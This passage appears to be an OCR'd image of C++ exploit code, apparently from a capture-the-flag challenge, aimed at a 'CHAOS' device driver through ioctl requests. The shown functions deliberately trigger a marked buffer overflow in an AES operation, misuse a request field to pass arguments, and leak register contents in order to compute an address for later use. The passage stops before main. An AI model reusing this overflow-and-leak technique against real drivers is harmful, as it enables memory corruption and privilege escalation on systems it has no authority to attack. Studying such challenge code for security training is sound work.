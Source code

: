 ```cpp
    check(ret == 0, "req failed");
    ret = req.out_size;


}

int aes_enc(char* data, int key_entry, int size) {
    int ret;
    struct Req req = {
        .op = 4,
        .inp = 0,
        .in_size = size, // overflow if in_size < 32 and (in_size & 7) == 0
        .out = 0,
        .out_size = 256,
        .key_size = key_entry, // misuse this field for argument
    };

    for ( int i = 0; req.in_size > i; ++i )
        buf[i + req.inp] = data[i];

    ret = ioctl(dev, CHAOS_REQUEST, &req);
    check(ret == 0, "req failed");
    ret = req.out_size;
    printf("ret = %llu, %016llx\n", ret, ret);


    for (int i=0; i<32; i++) {
        printf("%02x", (unsigned char) buf[i + req.out]);
        data[i] = buf[i + req.out];
    }
    puts("");
}

void print_regs() {
    int ret;
    struct Req req = {
        .op = 5,
        .out = 0,
        .out_size = 256,
        .inp = 0,
        .in_size = 256,
        .key = 0,
        .key_size = 256,
    };

    ret = ioctl(dev, CHAOS_REQUEST, &req);
    check(ret == 0, "req failed");
    ret = req.out_size;
    printf("ret = %llu, %016llx\n", ret, ret);

    uint64_t* u64buf = (uint64_t*) &buf[req.out];
    const char* rn[] = {"rax", "rbx", "rcx", "rdx", "rdi", "rsi", "r8", "r9", "r10", "r11", "r12", "r13", "r14", "r15", "rsp"};
    for (int i=0; i<15; i++) {
        printf("%3s: %016llx\n", rn[i], u64buf[i]);
    }
    fdaddr = u64buf[1] + 0x5090;
    puts("");
}
uint32_t pad[0x10];
char secret[0x20];
uint32_t keys[0x100];
int main() {
```